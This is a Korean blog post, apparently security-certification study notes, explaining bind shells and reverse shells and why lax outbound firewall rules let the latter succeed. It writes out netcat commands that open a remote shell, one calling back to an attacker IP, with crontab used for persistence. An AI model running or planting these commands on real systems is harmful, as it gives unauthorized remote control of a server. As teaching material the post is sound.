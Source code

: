 ```yaml
---

layout: single
title: 바인드 쉘(Bind Shell), 리버스 쉘(Reverse Shell)   
category: 컴퓨터
tag: [보안, security, 정보보안기사]
published: true

---
```


## Outline
- 바인드 쉘과 리버스쉘의 쉘 획득 원리 설명
- 리버스 쉘이 성공하게 되는 서버의 취약 설정 설명
- 바인드 쉘과 리버스 쉘을 이용한 쉘 권한 획득 실습

## 바인드 쉘 (Bind Shell)

클라이언트/공격자가 서버에 접속하여 서버의 쉘을 획득하는 방식


![Pasted image 20230509205411.png]({{site.url}}/_images/2023-05-14-01/Pasted%20image%2020230509205411.png)

1. Alice는 서버 쉘 획득을 위해 사전에 서버에 접속하여 **nc -lvp 1234 -e /bin/bash** 명령을 **crontab(서버스케줄러)**\에 등록하여 1234 포트를 listen 상태로 유지한다.
2. 이후 Alice는 언제든지 Bob의 서버에 1234포트로 원격 접속 할 수 있다.    
![screenshot 1.png](/_images/2023-05-14-01/screenshot%201.png)

## 리버스 쉘 (Reverse Shell)

타겟 서버가 클라이언트/공격자로 접속해 클라이언트가 서버의 쉘을 획득하는 방식
일반적으로 **서버방화벽(iptables)** 의 인바운드 정책의 경우 공개 서비스에 대해서만 화이트리스트 방식으로 엄격히 관리하지만 아웃바운드 정책의 경우 비교적 느슨하게 관리하는 취약점을 노린 공격이다.

![Pasted image 20230509220225.png](/_images/2023-05-14-01/Pasted%20image%2020230509220225.png)

1. Alice는 기존 바인드 쉘(Bind Shell)을 이용한 공격에 실패하고 그 원인을 방화벽 설치로 추측 하여 리버스 쉘(Reverse Shell)공격을 시도 한다.
2. Alice는 사전에 서버에 접속하여 자신의 PC에 접속을 시도하여 쉘(/bin/shell)을 실행하는 명령 **nc -e /bin/bash 192.168.0.106** 을 **crontab(서버스케줄러)** 에 등록한다.
3. 이후 Alice는 자신의 PC에 1234포트를 listen상태로 놓고(**nc -lp 1234**) 서버의 접속요청을 기다린다.
4. 서버요청이 연결되면 서버의 쉘 사용이 가능하다.    
![screenshot 2.png](/_images/2023-05-14-01/screenshot%202.png)

## connection documents
- 